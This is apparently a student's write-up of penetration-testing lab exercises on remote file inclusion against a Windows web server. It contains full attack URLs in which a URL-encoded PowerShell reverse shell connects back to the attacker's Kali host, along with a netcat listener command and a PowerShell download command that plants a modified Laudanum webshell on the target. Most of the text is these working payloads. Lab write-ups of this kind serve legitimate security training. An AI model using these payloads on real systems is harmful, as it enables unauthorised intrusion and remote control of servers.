 ### 9.4.4.7 Exercises
#### 1. Exploit the RFI vulnerability in the web application and get a shell.

- Created file with RFI code & served on Kali
  ![image-20200625175107144](.9.4.4.7.assets/image-20200625175107144.png)

- Started netcat lister on Kali:

  ```bash
  sudo nc -nvlp 443
  ```

- Injected link to RFI code in request to webserver with URL encoded reverse shell code from the previous exercise:
  `192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22`
- Shell Access obtained
  ![image-20200625175355529](.9.4.4.7.assets/image-20200625175355529.png)

#### 2. Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.

`menu2.php` takes the `file` argument and appends `.php` to the end of it.  To make this work, I just renamed `bad.txt` to `bad.php` and did not supply an extension to `bad` in the URL so that it would look for `bad.php`.

Basically everything else operated the same way as above:

- Started netcat listener on Kali
- Requested this URL:  `192.168.216.10/menu2.php?file=http://192.168.119.216/bad&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22`
- Shell access obtained
  ![image-20200625180056091](.9.4.4.7.assets/image-20200625180056091.png)

#### 3. Use one of the webshells included with Kali to get a shell on the Windows 10 target

I used the Laudanum shell.php webshell for this.

- I modified the `shell.php` code to only allow my Kali IP,  changed the default user/pass to `coyote/password` and saved the file as `bad1.php`
  ![image-20200625203248267](.9.4.4.7.assets/image-20200625203248267.png)

- Used the `bad.txt` script from the previous exercises to run the PowerShell command `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.216/bad1.php','bad1.php')"` (encoded for URL's) to download from Kali the `bad1.php` file to the webserver.

  ```html
  http://192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%28%6e%65%77%2d%6f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%2f%62%61%64%31%2e%70%68%70%27%2c%27%62%61%64%31%2e%70%68%70%27%29%22
  ```

- Visited the `bad1.php` page on the webserver and logged in using the credentials I set.
  ![image-20200625203358360](.9.4.4.7.assets/image-20200625203358360.png)

- From this console, I have webshell access.  At this point, I could execute a PowerShell command to create a reverse shell, but I also could've done that earlier, so I didn't bother here.
  ![image-20200625203439368](.9.4.4.7.assets/image-20200625203439368.png)

- I also deleted my bad1.php file....just call me Mr. Clean.

  ```html
  http://192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=del%20bad1.php
  ```

  ![image-20200625204546193](.9.4.4.7.assets/image-20200625204546193.png)